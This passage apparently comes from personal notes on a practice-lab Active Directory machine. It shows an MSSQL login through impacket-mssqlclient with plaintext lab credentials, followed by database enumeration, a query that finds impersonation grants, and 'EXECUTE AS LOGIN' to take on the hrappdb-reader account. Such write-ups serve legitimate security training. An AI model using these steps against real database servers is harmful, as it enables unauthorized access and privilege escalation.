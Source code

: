 They didn't crack

![[PG/Active Directory/attachments/Pasted image 20250709011310.png]]

# Login with mssql-client

```
impacket-mssqlclient  'hokkaido-aerospace.com/discovery':'Start123!'@192.168.194.40 -dc-ip 192.168.194.40 -windows-auth
```

![[PG/Active Directory/attachments/Pasted image 20250709011952.png]]

```
xp_dirtee
```

![[PG/Active Directory/attachments/Pasted image 20250709012102.png]]

```
SELECT name FROM master..sysdatabases;
```

![[PG/Active Directory/attachments/Pasted image 20250709100439.png]]

Access hrappdb 

```
use hrappdb;
```

![[PG/Active Directory/attachments/Pasted image 20250709100545.png]]

No permissions.

Check for another user to impersonate 

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

![[PG/Active Directory/attachments/Pasted image 20250709100808.png]]
We can impersonate hrappdb-reader

Login as hrappdb-reader

```
EXECUTE AS LOGIN = 'hrappdb-reader'
```

Select the database 

```
use hrappdb
```

![[PG/Active Directory/attachments/Pasted image 20250709101014.png]]
